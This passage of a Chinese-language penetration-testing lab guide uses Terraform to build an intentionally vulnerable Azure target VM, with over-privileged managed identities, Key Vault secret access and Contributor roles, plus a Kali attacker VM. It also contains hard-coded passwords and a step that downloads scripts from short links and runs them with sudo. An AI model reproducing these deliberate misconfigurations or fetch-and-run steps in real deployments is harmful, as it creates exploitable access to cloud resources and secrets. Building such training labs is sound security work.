        storage_account_uri = null
      }
      identity {
        type = "SystemAssigned"
      }custom_data = (
        base64encode(
          templatefile(
            "${path.module}/boot-script.sh",
            {}
          )
        )
      )
    }
    ```

    你能看到`identity`块，其中`type = "SystemAssigned"`吗？这个虚拟机实例将在接下来的步骤中配置一个系统分配的托管身份，用来在我们与其他 Azure 服务或资源（如 Azure 密钥保管库）交互时进行身份验证和授权。

注意

这对渗透测试人员意味着什么？这意味着，如果我们能够攻破虚拟机实例，那么我们可能能够在不提供凭据的情况下，从虚拟机实例内部访问其他服务和资源（如 Azure 密钥保管库）。

1.  在`target_vm/main.tf`文件中，让我们定义并配置 Azure 密钥保管库资源。确保将密钥保管库的`name`值从`rg-01-key-vault`更新为任何未使用的保管库名称：

    ```
     resource "azurerm_key_vault" "key_vault" {
      name                        = "rg-01-key-vault"
      location                    = var.rg_location
      resource_group_name         = var.rg_name
      sku_name                    = "standard"
      tenant_id                   = (
        data.azurerm_client_config.current.tenant_id
      )
      soft_delete_retention_days  = 7
      purge_protection_enabled    = false
      access_policy {
        tenant_id = (
          data.azurerm_client_config
              .current.tenant_id
        )
        object_id = (
          azurerm_linux_virtual_machine
            .vm_target
            .identity[0]
            .principal_id
        )secret_permissions = [
          "Get",
          "Set",
          "List"
        ]
      }access_policy {
        tenant_id = (
          data.azurerm_client_config
              .current.tenant_id
        )
        object_id = (
          azurerm_user_assigned_identity
              .managed_identity
              .principal_id
        )secret_permissions = [
          "Get",
          "Set",
          "List"
        ]
      }
    }
    ```

    在这里，第一个访问策略授予权限给与 Azure Linux VM 关联的主体。指定的密钥权限允许主体执行对存储在保险库中的秘密进行 **获取**、**设置** 和 **列出** 等操作。另一方面，第二个访问策略授予权限给用户分配的托管标识。与第一个访问策略类似，第二个访问策略的指定秘密权限允许主体执行对存储在保险库中的秘密进行 **获取**、**设置** 和 **列出** 等操作。

重要提示

确保将 Key Vault `name` 值从 `rg-01-key-vault` 更新为任何未使用的保险库名称，因为在稍后运行 `terraform apply` 命令时，您会遇到以下错误（由于保险库名称在全局范围内是唯一的）：**VaultAlreadyExists — 保险库名称 'rg-01-key-vault' 已在使用中。保险库名称是全局唯一的，因此可能已经被使用。**

随意向 Key Vault `name` 值添加随机字符，以确保您的保险库名称在全局范围内是唯一的。一个好的例子是 `rg-01-key-vault-a1b2c3d4`。当然，为了避免其他读者使用相同的保险库名称，请尝试其他名称！最后，我们还必须更新 `target_vm/boot-script.sh` 文件中指定的保险库名称。您应该在脚本末尾找到以下行：`az keyvault secret set --vault-name rg-01-key-vault --name "flag2" --value "FLAG #** **2!"`。

1.  让我们也在 `target_vm/main.tf` 文件中定义托管标识：

    ```
     resource "azurerm_user_assigned_identity" "managed_identity" {
      name                = "managed-identity"
      location            = var.rg_location
      resource_group_name = var.rg_name
    }
    ```

1.  在 `target_vm/main.tf` 文件中，定义以下数据块。在设置权限和角色分配时将使用这些数据块：

    ```
     data "azurerm_client_config" "current" {}
    data "azurerm_subscription" "current" {}
    ```

1.  接下来，定义以下角色分配：

    ```
     resource "azurerm_role_assignment" "role_assignment_01" {
      scope                = (
        "/subscriptions/${(
          data.azurerm_subscription
              .current
              .subscription_id
         )}/resourceGroups/${var.rg_name}"
      )
      role_definition_name = "Contributor"principal_id         = (
        azurerm_user_assigned_identity
          .managed_identity
          .principal_id
      )
    }
    ```

    此角色分配向指定资源组中的用户分配的托管标识授予 `Contributor` 角色。分配 `Contributor` 角色意味着托管标识将具有管理指定资源组内资源（例如创建、修改和删除资源）所需的权限。

1.  让我们也定义以下角色分配：

    ```
     resource "azurerm_role_assignment" "role_assignment_02" {
      scope                = (
        "/subscriptions/${(
          data.azurerm_subscription
              .current
              .subscription_id
        )}/resourceGroups/${var.rg_name}"
      )
      role_definition_name = "Contributor"principal_id         = (
        azurerm_linux_virtual_machine
          .vm_target
          .identity[0]
          .principal_id
        )
    }
    ```

    此角色分配向与指定资源组中的 Azure Linux VM 关联的主体授予 `Contributor` 角色。这意味着该主体将具有管理指定资源组内资源（例如创建、修改和删除资源）所需的权限。

注意

在继续之前，请确保保存了对 `target_vm/main.tf` 文件所做的更改。

1.  当 `target_vm/main.tf` 文件准备就绪时，让我们在编辑器中打开 `target_vm/outputs.tf` 文件。将以下代码块添加到 `target_vm/outputs.tf` 中，以定义 `target_vm` 模块的输出：

    ```
     output "vm_target_private_ip" {
      value = (azurerm_linux_virtual_machine
                .vm_target
                .private_ip_address)
    }
    output "vm_target_public_ip" {
      value = (azurerm_linux_virtual_machine
                .vm_target
                .public_ip_address)
    }
    output "vm_username" {
      value = local.vm_username
    }
    output "vm_password" {
      value = local.vm_password
    }
    ```

    在继续之前，请确保保存了对 `target_vm/outputs.tf` 文件所做的更改。

1.  现在，让我们更新 `outputs.tf`（位于 `pentest_lab` 目录中），并使用以下代码块：

    ```
     output "vm_target_private_ip" {
      value = module.target_vm.vm_target_private_ip
    }
    output "vm_target_public_ip" {
      value = module.target_vm.vm_target_public_ip
    }
    output "vm_target_username" {
      value = module.target_vm.vm_username
    }
    output "vm_target_password" {
      value = module.target_vm.vm_password
    }
    ```

    确保在继续之前，保存你对 `outputs.tf` 文件（位于 `~/pentest_lab` 目录中）所做的更改。

1.  让我们更新 `target_vm/boot-script.sh` 文件中指定的 key vault `name` 值。你应该在脚本的末尾找到以下一行：

    ```
     az keyvault secret set --vault-name rg-01-key-vault --name "flag2" --value "FLAG # 2!"
    ```

    确保你将 `rg-01-key-vault` 替换为在 `target_vm/main.tf` 中为 `azure_rm_key_vault.key_vault` 资源配置的 vault 名称。

1.  让我们运行 `terraform plan`，以预览 Terraform 将执行的更改：

    ```
    terraform plan
    ```

    运行命令时，我们应该会遇到多个 `Missing required** **argument` 错误。

1.  让我们在 `main.tf` 文件（位于 `pentest_lab` 目录中）中找到以下代码块：

    ```
     module "target_vm" {
      source = "./target_vm"
    }
    ```

    使用以下代码块更新：

    ```
    module "target_vm" {
      source = "./target_vm"
      rg_location = module.secure_network.rg_01_location rg_name = module.secure_network.rg_01_name subnet = module.secure_network.subnet_01 asg = module.secure_network.asg_01 nsg = module.secure_network.nsg_01 }
    ```

    在继续操作之前，确保保存文件。

注意

需要注意的是，与第 *4 章* 中准备目标虚拟机实例的方式相比，本章的实现没有等待机制。你可以自由使用上一章中的相同技术，并升级当前的实现。

1.  让我们运行 `terraform plan`，以预览 Terraform 将执行的更改：

    ```
    terraform plan
    ```

注意

运行此命令可能会产生一些弃用警告。只要我们能够成功运行该命令而没有错误，这应该是可以的。

1.  接下来，让我们使用 `terraform apply` 命令来执行更改：

    ```
    terraform apply -auto-approve
    ```

    这应该会输出以下内容：

    ```
    vm_target_password = "..." vm_target_private_ip = "..." vm_target_public_ip = "..." vm_target_username = "testuser"
    ```

    确保你将输出值复制到本地机器上的文本编辑器中，因为我们将在本章的后续部分使用这些值。

重要说明

确保你更新 `Key Vault` 的 `name` 值（在 `target_vm/main.tf` 中定义），如果遇到类似 **VaultAlreadyExists — The vault name ‘rg-01-key-vault’ is already in use. Vault names are globally unique so it is possible that the name is already taken** 的错误信息，请修改为未使用的 vault 名称。可以随意向 `name` 值中添加随机字符，以确保你的 vault 名称在全球范围内唯一（例如，**rg-01-key-vault-a1b2c3d4**）。

## 第二部分/2 – 验证我们的目标虚拟机实例设置

按照以下步骤操作：

1.  通过以下方式导航到目标虚拟机实例（**vm-target**）的 `Overview` 面板：（1）在搜索框中输入 `vm-target`，然后（2）从搜索结果中选择 **vm-target — 虚拟机**。在左侧资源菜单的 `Help` 部分，找到并选择 `Serial console`，以打开串行控制台面板。

注意

如果你在加载串行控制台终端时遇到问题，可以简单地关闭 Cloud Shell 并刷新页面（或在新浏览器标签页中打开页面）。

1.  按 *Enter* 键加载 `vm-target login` 提示符。使用 `vm_target_username`（**testuser**）和 `vm_target_password`（*随机生成*）输出值进行身份验证并通过串行控制台登录。

注意

如果你无法将 `vm_target_username** (**testuser`) 和 `vm_target_password` 输出值复制到本地机器上的文本编辑器中，可以在云终端（`~/pentest_lab` 目录中）运行 `terraform show` 命令。

1.  让我们从检查 Metasploitable 2 容器是否正在运行开始（在 `$` 后执行以下命令）：

    ```
    sudo docker ps
    ```

    如果在运行 `sudo docker ps` 命令后，脆弱的容器没有出现，请耐心等待并在几分钟后重新运行相同的命令。

注意

如果你在设置和配置目标虚拟机实例时遇到问题，只需打开 `/var/log/` 目录并使用安装和启动脚本生成的日志进行故障排除。例如，你可以运行 `cat /var/log/syslog | grep STEP` 来检查目标虚拟机实例内已经执行了 `boot-script.sh` 脚本文件中的哪些步骤。

1.  除此之外，检查我们是否可以使用系统分配的托管标识进行身份验证：

    ```
    az login --identity
    ```

    这应该返回以下内容：

    ```
    [
      {
        "environmentName": "AzureCloud",
        "homeTenantId": "...",
        "id": "...",
        "isDefault": true,
        "managedByTenants": [],
        "name": "Azure subscription 1",
        "state": "Enabled",
        "tenantId": "...",
        "user": {
          "assignedIdentityInfo": "MSI",
          "name": "systemAssignedIdentity",
          "type": "servicePrincipal"
        }
      }
    ]
    ```

    这意味着我们应该能够在 Azure 中进行身份验证并执行特定操作，而无需（显式地）提供凭据。

1.  让我们还验证是否能够列出密钥库：

    ```
    az keyvault list
    ```

    这应该返回一个类似于我们这里的嵌套 JSON 结构：

    ```
    [
      {
        "id": "...",
        "location": "eastus",
        "name": "rg-01-key-vault",
        "resourceGroup": "resource-group-01",
        "tags": {},
        "type": "Microsoft.KeyVault/vaults"
      }
    ]
    ```

重要提示

请注意，您将根据如何在 `target_vm/main.tf` Terraform 配置文件中配置 `azurerm_key_vault.keyvault` 资源而获得不同的密钥库名称值。

1.  最后，让我们运行以下命令列出存储在 `rg-01-key-vault` 中的所有密钥：

    ```
    az keyvault secret list --vault-name rg-01-key-vault
    ```

    确保用你在上一步运行命令后获取的实际密钥库名称替换 `rg-01-key-vault`。运行命令应该返回一个仅包含与 `flag2` 密钥对应的单一嵌套 JSON 值的列表。

重要提示

如果前一个命令返回了一个空的 `[]` 值，确保 `target_vm/main.tf` 和 `target_vm/boot-script.sh` 文件中指定的密钥库名称相同。更新文件后，可以再次运行 `terraform apply` 命令，以应用你对这些文件所做的更改并重新构建目标虚拟机实例，这将再次运行 `boot-script.sh`。为了帮助你进行故障排除和解决问题，你可以删除资源（使用 **terraform destroy**），然后重新创建资源（使用 **terraform apply**）。

在这个阶段，你可能已经迫不及待想要探索并攻击目标资源了！由于我们故意将网络环境配置为仅允许 *VNet 02* 中的资源访问 *VNet 01*（目标虚拟机实例所在的网络），因此我们必须首先在 *VNet 02* 中设置攻击者虚拟机实例，才能访问具有设计漏洞的应用程序，并在网络环境中执行渗透测试模拟。

# 手动设置攻击者虚拟机实例

在我们的对等网络环境已准备好（其中目标资源运行在其中）之后，我们现在可以继续设置我们的 Kali Linux 攻击者。在上一章中，我们逐步进行了攻击者 VM 实例的设置和配置。在本章中，我们将稍作优化，并利用一些脚本进一步加速安装过程。

也就是说，我们将把这一部分分成两部分：

+   *第一部分，共 2 部分 – 手动启动并配置* *攻击者实例*

+   *第二部分，共 2 部分 – 验证我们的设置* *是否正常工作*

## 第一部分，共 2 部分 – 手动启动并设置攻击者实例

按照以下步骤操作：

1.  在搜索栏中输入**虚拟机**，然后按*回车*键：

    图 5.10 – 导航到虚拟机页面

    从可用选项列表中选择**虚拟机**以导航到**虚拟机**页面。

1.  在**虚拟机**页面，点击**创建**按钮。从下拉菜单中选择**Azure 虚拟机**。

1.  在**创建虚拟机**页面，在**基本**选项卡下指定以下配置值：

    +   **项目详情** > **订阅**：使用现有订阅

    +   **项目详情** > **资源` `组**：`resource-group-02`

    +   **实例详细信息** > **虚拟机` `名称**：`kali-00`

    +   **实例详细信息** > **地区**：**（美国）` `东美国**

    +   **实例详细信息** > **安全性` `类型**：**标准**

    +   **实例详细信息** > **镜像**：点击**查看所有` `镜像**链接

注意

点击**查看所有镜像**将把你重定向到**选择镜像**页面。

1.  在**选择镜像**页面，输入`kali`在搜索框中，然后按*回车*键：

    图 5.11 – 选择 Kali Linux 镜像

    选择**Kali Linux — 最先进的渗透测试发行版。永远是**，点击**选择**按钮，如*图 5.11*所示。

1.  选择**Kali 2022.3 – x64 Gen 2**（如果有其他更新版本，选择列表中的第一个）。这应该会把你重定向回**创建虚拟机**页面。

注意

如果你在选择 Kali Linux 镜像并使其在下拉菜单中显示为已选镜像时遇到问题（即使**安全性类型**配置已经设置为**标准**），只需刷新页面并重试。请注意，你将需要重新输入虚拟机配置设置。

1.  在**创建虚拟机**页面继续之前的步骤，在**基本**选项卡下指定以下配置值：

    +   **管理员账户** > **身份验证` `类型**：**密码**

    +   **管理员账户** > **用户名**：`kali_admin`

    +   **管理员账户** > **密码**：`KaliLinux1234!!!`

    +   **管理员账户** > **确认` `密码**：`KaliLinux1234!!!`

    +   **入站端口规则** > **公共入站` `端口**：**无**

    然后点击`Next : Disks >`按钮。

1.  在`Disks`标签页下接受默认配置，然后点击`Next :** **Networking >`。

1.  在`Networking`标签页下，确保设置了以下配置值：

    +   **虚拟` `网络**：`vnet-02`

    +   **子网**：`subnet-02 (192.168.1.0/24)`

    +   **NIC 网络安全` `组**：`Advanced`

    +   **配置网络安全` `组**：`nsg-02`

    +   **删除公共 IP 和 NIC，当 VM` `被删除时**：**（已选中）**

1.  现在，继续点击`Next`按钮直到你到达最后一个标签页。

注意

只需接受`Disks`、`Networking`、`Management`、`Monitoring`、`Advanced`、`Tags`和`Review +** **create`的默认设置。

1.  一旦你到达`Review + create`标签页，检查配置详情后点击`Create`按钮。

1.  等待直到你看到**部署完成**的消息。向下滚动并点击`Go to resource`按钮。这样会将你重定向到我们刚刚创建的虚拟机（**kali-00**）的**概览**页面。

1.  在左侧面板的资源菜单中，找到并选择**串行控制台**，以打开串行控制台面板。

1.  一旦串行控制台加载完毕，按*Enter*键继续到`kali login:`提示符。使用`kali_admin`作为用户名，`KaliLinux1234!!!`作为密码继续操作。

注意

如果在提示符前看到一堆问号字符（例如，**?????????????????????????kali_admin@kali:~$**），请忽略这些额外的字符。

1.  通过运行以下命令下载`kali_setup.sh`脚本（在`$`符号后）：

    ```
    SCRIPT_URL=`https://bit.ly/kali-desktop-setup`
    wget -O kali_setup.sh $SCRIPT_URL
    ```

注意

请注意，提供的缩短链接仅指向完整的脚本，你可以在[`gist.githubusercontent.com/joshualat/e01be82543c238d7f0a13f4c33f22802/raw/8b6af622f340cdce14f13260a4ca16678f1dbb50/kali_setup.sh`](https://gist.githubusercontent.com/joshualat/e01be82543c238d7f0a13f4c33f22802/raw/8b6af622f340cdce14f13260a4ca16678f1dbb50/kali_setup.sh)找到该脚本。

1.  让我们查看一下`kali_setup.sh`中的安装脚本：

    ```
    cat kali_setup.sh
    ```

    这将显示脚本的内容，类似于*图 5.12*中所示：

    

    图 5.12 – kali_setup.sh

    如果你已经忘记了，这是我们在*第四章*、*在 GCP 上设置隔离渗透测试实验环境*中使用的相同一组命令。

1.  让我们使用`chmod`命令使`kali_setup.sh`文件可执行：

    ```
    chmod +x kali_setup.sh
    ```

1.  下载`setup_cron_job.sh`脚本：

    ```
    SCRIPT_2_URL=`https://bit.ly/setup-cron`
    wget -O setup_cron_job.sh $SCRIPT_2_URL
    ```

注意

请注意，提供的缩短链接仅指向完整的脚本，你可以在[`gist.githubusercontent.com/joshualat/e01be82543c238d7f0a13f4c33f22802/raw/8b6af622f340cdce14f13260a4ca16678f1dbb50/setup_cron_job.sh`](https://gist.githubusercontent.com/joshualat/e01be82543c238d7f0a13f4c33f22802/raw/8b6af622f340cdce14f13260a4ca16678f1dbb50/setup_cron_job.sh)找到该脚本。

1.  让我们查看一下`setup_cron_job.sh`脚本的内容：

    ```
    cat setup_cron_job.sh
    ```

    这应该会显示脚本的内容，类似于*图 5**.13*中所示：

    

    图 5.13 – setup_cron_job.sh

    这将配置 VNC 服务器和 noVNC 代理，使其在每次系统重启时自动启动。

1.  接下来，让我们使用`chmod`命令使`setup_cron_job.sh`脚本可执行：

    ```
    chmod +x setup_cron_job.sh
    ```

1.  一切准备就绪后，让我们运行第一个脚本：

    ```
    sudo ./kali_setup.sh
    ```

注意

此步骤可能需要 20-30 分钟才能完成。在等待时，随意拿一杯咖啡或茶来喝。考虑到脚本需要一段时间才能完成，你不妨顺便拿点小吃吃点！

1.  在运行下一组命令之前，让我们快速清理一下屏幕：

    ```
    clear
    ```

1.  现在，让我们运行`setup_cron_job.sh`脚本：

    ```
    sudo ./setup_cron_job.sh
    ```

1.  让我们检查一下是否成功更新了`crontab`配置：

    ```
    sudo crontab -l
    ```

    这应该会显示以下输出：

    ```
    @reboot sleep 60 && /usr/bin/vncserver @reboot sleep 60 && /usr/share/novnc/utils/novnc_proxy --listen 0.0.0.0:8081 --vnc localhost:5901 >/dev/null 2>&1 &
    ```

    在这里，您可以看到我们已经配置了`vncserver`和`novnc_proxy`在 60 秒后运行，以确保系统进程在这些进程启动之前已经准备好。

1.  使用以下命令重新启动 VM 实例：

    ```
    sudo reboot
    ```

注意

等待大约 3-5 分钟，直到攻击者 VM 实例重新启动。

## 第二部分：验证我们的设置是否正常工作

请按照以下步骤操作：

1.  一旦串口控制台加载完成，按*Enter*继续到`kali login:`提示符。使用用户名`kali_admin`和密码`KaliLinux1234!!!`继续。

1.  让我们使用`ps`命令快速检查一切是否按计划设置好：

    ```
    ps -ef | grep vnc
    ```

    使用`ps -ef | grep** **vnc`命令后，请验证是否看到以下运行中的进程：

    ```
    ... bash /usr/share/novnc/utils/novnc_proxy --listen 0.0.0.0:8081 --vnc localhost:5901 ... /usr/bin/perl /usr/bin/vncserver ... /usr/bin/python3 /usr/bin/websockify --web /usr/share/novnc/utils/../ 0.0.0.0:8081 localhost:5901 ...
    ```

注意

你可能需要额外等一分钟，直到`ps -ef | grep vnc`显示此输出。

1.  使用左侧窗格中的资源菜单，导航到 VM 实例的**概述**页面：

    图 5.14 – 获取目标 VM 实例的 Public IP 地址值

    复制**Public IP 地址**值（到剪贴板），如*图 5**.14*中所示。

1.  打开一个新的浏览器标签页，使用`http://<ATTACKER VM PUBLIC IP ADDRESS>:8081/vnc.html`网址访问基于网页的 noVNC 客户端。确保将`<ATTACKER VM PUBLIC IP ADDRESS>`替换为您之前复制到剪贴板的**Public IP 地址**值：

    图 5.15 – noVNC 欢迎屏幕

    这将打开一个欢迎屏幕，带有**连接**按钮，类似于*图 5**.15*中所示。

重要提示

如果您发现无法访问欢迎屏幕，可能是您的 IP 地址已经发生了变化。只需打开 Cloud Shell 编辑器，更新`terraform.tfvars`文件。一旦`terraform.tfvars`文件已更新为您本地机器的新 IP 地址，重新运行`terraform apply`命令以更新防火墙规则，允许您的新 IP 地址通过。

1.  点击**连接**按钮，然后使用`kali123`密码（或之前指定的密码）访问桌面环境，类似于*图 5.16*所示：

    图 5.16 – 在浏览器中访问 Kali Linux 桌面/GUI 环境

    一旦我们可以访问桌面环境，就可以基于当前的 VM 实例（**kali-00**）开始创建 golden 镜像。

注意

在继续下一组步骤之前，可以随时关闭浏览器标签页（Kali Linux 桌面/GUI 环境）。

与在 GCP 中设置 Kali Linux 机器相比，在 Microsoft Azure 中设置类似的 VM 实例所需的步骤更少，因为我们不再需要导入 Kali Linux 通用云镜像。当然，本章是在前一章的基础上进行的，并且使用自动化脚本进一步减少了手动设置攻击者机器时的步骤。

# 利用 Terraform 自动设置攻击者 VM 实例

上一节主要集中于使用预构建脚本设置攻击者 VM 实例。这是必要的，因为我们将使用此 VM 实例（**kali-00**）作为参考来创建 golden 镜像。这个 golden 镜像将用于 Terraform 配置文件中，以自动设置攻击者 VM 实例（**vm-kali**）。

注意

我们创建的原始 VM 实例（**kali-00**）会发生什么？在用它创建 golden 镜像之后，它会变成*通用化的*，无法再启动。这意味着，一旦 golden 镜像成功创建，我们将删除原始 VM 实例（**kali-00**）。

本节分为以下子部分：

+   *第一部分，共 3 部分 – 创建* *golden 镜像*

+   *第二部分，共 3 部分 – 删除手动* *创建的资源*

+   *第三部分，共 3 部分 – 准备 Terraform* *配置文件*

不再多说，开始吧！

## 第一部分，共 3 部分 – 创建 golden 镜像

按照以下步骤操作：

1.  导航到我们 Kali Linux（**kali-00**）实例的 VM 实例**概述**页面。

1.  找到并点击**捕获**按钮，将被重定向到**创建映像**页面。

1.  在**创建映像**页面上，在**基础信息**标签下指定以下配置值：

    +   **项目详细信息** > **订阅** > **资源` `组**：`image-resource-group`。

    +   **图库详细信息** > **目标 Azure 计算图库**：点击**创建新建**。在文本框中输入`kali_gallery`，然后点击**确定**按钮。

    +   **目标 VM 镜像定义**：点击**创建新建**。在**VM 镜像定义名称**字段中指定`golden-image`。保持其他选项不变，然后点击**确定**按钮以继续创建新的 VM 镜像定义。

    +   **版本详细信息** > **版本` `号**：`1.0.0`。

    然后点击**下一步 : 标签 >**按钮。

注意

在创建虚拟机映像定义时，确保记下 **发布者**、**产品** 和 `SKU` 配置值（**发布者**：`kali-linux`，**产品**：`kali`，`SKU`：**kali**）。

1.  在 **标签** 标签下，简单地定位并点击 **下一步：审查 +` `创建 >**。

1.  审查配置设置，然后点击 **创建** 按钮。这将停止正在运行的虚拟机实例，并将你重定向到 **部署** 页面（在该页面上，你将看到 **部署正在进行** 的消息）。

注意

该步骤可能需要大约 10-15 分钟才能完成。在等待时，随便泡杯咖啡或茶放松一下！

1.  一旦看到 **您的部署已完成** 成功消息，点击 **前往资源** 按钮，导航到我们刚刚创建的资源的 **概览** 面板。

1.  定位并点击页面左上角的 **JSON 视图** 链接（如 *图 5.17* 所示）：

    图 5.17 – 定位 JSON 视图链接

    点击 **JSON 视图** 链接将打开 **资源 JSON** 面板。点击 **复制到剪贴板** 按钮，然后将此 `id` 值存储在本地计算机上的文本编辑器中。请注意，`id` 值的格式应类似于以下内容：

    ```
     /subscriptions/.../resourcegroups/image-resource-group/providers/Microsoft.Compute/galleries/kali_gallery/images/golden-image/versions/1.0.0
    ```

    我们将在稍后准备 Terraform 配置文件时使用这个值，以便自动化创建 Kali Linux 服务器。

    ## 第二部分，共 3 部分 – 删除手动创建的资源

    按照以下步骤操作：

1.  通过（1）在搜索栏中输入 `kali-00`，然后（2）从搜索结果中选择 **kali-00 — 虚拟机**，导航到 Kali Linux (`kali-00`) 虚拟机实例的 **概览** 面板。

1.  现在，让我们删除实例。在左侧面板的资源菜单中，找到并点击 **概览**。在 **概览** 面板中，点击 **删除** 按钮。

1.  在关联资源列表下，确保在 **与虚拟机一起删除** 列中尽可能勾选所有三个复选框（**操作系统磁盘**、**网络接口** 和 **公共 IP 地址**）。

1.  还需要勾选 **我已阅读并理解此虚拟机以及上面列出的任何关联资源将被删除** 复选框。

1.  然后点击 **删除** 按钮。

注意

一两分钟后，你应该会看到成功消息，说明资源已成功删除。

## 第三部分，共 3 部分 – 准备 Terraform 配置文件

按照以下步骤操作：

1.  该是再次编写代码的时候了！确保激活并最大化 Cloud Shell 编辑器。

1.  在执行接下来的命令之前，确保我们在 `pentest_lab` 目录下：

    ```
    cd ~/pentest_lab
    ```

1.  让我们使用以下命令在 `attacker_vm` 目录中创建 `main.tf`、`variables.tf` 和 `outputs.tf` 文件：

    ```
    touch attacker_vm/main.tf
    touch attacker_vm/variables.tf
    touch attacker_vm/outputs.tf
    ```

注意

当您在使用 Cloud Shell 时遇到问题时，随时可以通过点击`Restart Cloud Shell`按钮进行重启。重启 Cloud Shell 后，请确保返回到`~/pentest_lab`目录。如果这样不起作用，您可以注销并重新登录您的 Azure 帐户，以帮助您排除并解决各种问题。

1.  接下来，在编辑器中打开`attacker_vm/variables.tf`文件，并添加以下代码块以定义`source_image_id`、`asg`、`nsg`、`rg_location`、`rg_name`、`subnet`和`my_public_ssh_key`变量：

    ```
     variable "source_image_id" {
      type = string
    }
    variable "asg" {
      type = string
    }
    variable "nsg" {
      type = string
    }
    variable "rg_location" {
      type = string
    }
    variable "rg_name" {
      type = string
    }
    variable "subnet" {
      type = string
    }
    variable "my_public_ssh_key" {
      type = string
    }
    ```

1.  在编辑器中打开`attacker_vm/main.tf`文件，并添加以下代码块以定义攻击者虚拟机实例的公共 IP 地址和网络接口资源：

    ```
     resource "azurerm_public_ip" "public_ip_attacker" {
      name                = "public-ip-attacker"
      location            = var.rg_location
      resource_group_name = var.rg_name
      allocation_method   = "Dynamic"
    }
    resource "azurerm_network_interface" "nic_attacker" {
      name                = "nic-attacker"
      location            = var.rg_location
      resource_group_name = var.rg_name
      ip_configuration {
        name                          = (
          "nic_configuration_attacker"
        )
        subnet_id                     = var.subnet
        private_ip_address_allocation = "Dynamic"
        public_ip_address_id          = (
          azurerm_public_ip.public_ip_attacker.id
        )
      }
    }
    ```

1.  接下来，让我们定义以下代码块，以便在攻击者虚拟机实例的网络接口与指定的 NSG 之间建立关联：

    ```
     resource "azurerm_network_interface_security_group_association" "nsg_assoc_attacker" {
      network_interface_id      = (
        azurerm_network_interface
          .nic_attacker
          .id
      )
      network_security_group_id = var.nsg
    }
    ```

1.  接下来，让我们定义以下代码块，以便在攻击者虚拟机实例的网络接口与指定的 ASG 之间建立关联：

    ```
     resource "azurerm_network_interface_application_security_group_association" "asg_assoc_3" {
      network_interface_id          = (
        azurerm_network_interface
          .nic_attacker
          .id
      )
      application_security_group_id = var.asg
    }
    ```

1.  一切准备就绪后，让我们定义并配置攻击者虚拟机实例，它将使用我们之前准备的黄金镜像：

    ```
     resource "azurerm_linux_virtual_machine" "vm_kali" {
      name                  = "vm-kali"
      location              = var.rg_location
      resource_group_name   = var.rg_name
      size                  = "Standard_DS1_v2"
      network_interface_ids = [
        azurerm_network_interface.nic_attacker.id
      ]
      os_disk {
        name                 = "os-disk-kali"
        caching              = "ReadWrite"
        storage_account_type = "Standard_LRS"
      }
      source_image_id = var.source_image_id plan {
        name = "kali"
        publisher = "kali-linux"
        product = "kali"
      }
      computer_name                   = "vm-kali"
      admin_ssh_key {
        username   = "kali_admin"
        public_key = var.my_public_ssh_key
      }
      admin_username                  = "kali_admin"
      admin_password                  = "KaliLinux1234!!!"   disable_password_authentication = false
      boot_diagnostics {
        storage_account_uri = null
      }
    }
    ```

    在这里，我们允许攻击者的虚拟机实例通过 SSH 密钥进行访问（除了使用用户名和密码访问外）。

注意

在继续下一步之前，请确保保存`attacker_vm/main.tf`文件。

1.  在编辑器中打开`attacker_vm/outputs.tf`文件，并添加以下代码行以输出攻击者虚拟机实例的私有和公共 IP 地址：

    ```
     output "vm_kali_private_ip" {
      value = (azurerm_linux_virtual_machine
                .vm_kali
                .private_ip_address)
    }
    output "vm_kali_public_ip" {
      value = (azurerm_linux_virtual_machine
                .vm_kali
                .public_ip_address)
    }
    ```

    这将允许根模块访问这些值，而这些值目前仅能从`attacker_vm`模块内访问。

1.  最后，让我们在`outputs.tf`文件中（位于`pentest_lab`目录内）定义以下输出：

    ```
     output "vm_kali_private_ip" {
      value = module.attacker_vm.vm_kali_private_ip }
    output "vm_kali_public_ip" {
      value = module.attacker_vm.vm_kali_public_ip }
    ```

    在这里，我们在根模块中定义了两个输出：`vm_kali_private_ip`，它是攻击者虚拟机实例的私有 IP 地址，来自`attacker_vm`模块的输出列表；以及`vm_kali_public_ip`，它是攻击者虚拟机实例的公共 IP 地址，同样来自`attacker_vm`模块的输出列表。

注意

由于`outputs.tf`文件已经定义了输出值，因此请确保追加这些代码块，而不是替换现有的代码块。

1.  让我们运行`terraform plan`以预览 Terraform 将要执行的更改：

    ```
    terraform plan
    ```

    这应该会给我们带来几个缺少的必需参数错误。

1.  为了解决这些问题，接下来让我们在`main.tf`文件中找到以下代码块：

    ```
     module "attacker_vm" {
      source = "./attacker_vm"
    }
    ```

    让我们将其替换为以下代码块：

    ```
    module "attacker_vm" {
      source = "./attacker_vm"
      my_public_ssh_key = var.my_public_ssh_key source_image_id = var.kali_image_id rg_location = module.secure_network.rg_02_location rg_name = module.secure_network.rg_02_name subnet = module.secure_network.subnet_02 asg = module.secure_network.asg_02 nsg = module.secure_network.nsg_02 }
    ```

    在继续之前，请确保保存您在`main.tf`文件中所做的更改。

1.  让我们运行`terraform plan`以预览 Terraform 将要执行的更改：

    ```
    terraform plan
    ```

    我们将遇到另一个问题，这次是关于我们之前作为占位符指定的`"<INSERT KALI IMAGE ID>"`字符串值。

1.  为了解决这个问题，让我们打开 `terraform.tfvars` 文件，并将其更新为我们之前创建的黄金镜像的 ID：

    ```
     ... kali_image_id = "<INSERT KALI IMAGE ID>" ...
    ```

    如果你想知道这个值是什么样的，`<INSERT KALI IMAGE ID>` 占位符的值应该具有类似以下格式：

    ```
    /subscriptions/.../resourcegroups/image-resource-group/providers/Microsoft.Compute/galleries/kali_gallery/images/golden-image/versions/1.0.0
    ```

1.  让我们再次运行 `terraform** **plan`：

    ```
    terraform plan
    ```

    这次命令应该没有任何错误地完成。

1.  接下来，让我们使用 `terraform apply` 命令来实现这些更改：

    ```
    terraform apply -auto-approve
    ```

    这应该会产生以下输出：

    ```
    ... vm_kali_private_ip = "..." vm_kali_public_ip = "..." vm_target_password = "..." vm_target_private_ip = "..." vm_target_public_ip = "..." vm_target_username = "testuser"
    ```

    如果 `terraform apply` 命令运行没有任何错误，我们就可以准备继续下一部分了！

注意

确保将输出值复制到本地机器上的文本编辑器中，因为我们将在本章后续部分中使用这些值。

随时使用你在本章之前下载的 SSH 密钥 (`kali-ssh`) 访问攻击者虚拟机实例。在使用 `chmod 600 kali-ssh` 更新 SSH 密钥文件的权限后，你可以运行以下命令，在本地机器和攻击者虚拟机实例之间创建 SSH 隧道：

```
ssh -L 8081:localhost:8081 -N -i <INSERT KEY NAME> <USER>@<ATTACKER VM IP>
```

一旦 SSH 隧道设置完成，我们可以通过 http://localhost:8081/vnc.html 访问相同的桌面环境（而不是使用攻击者虚拟机实例的公共 IP 地址）。

注意

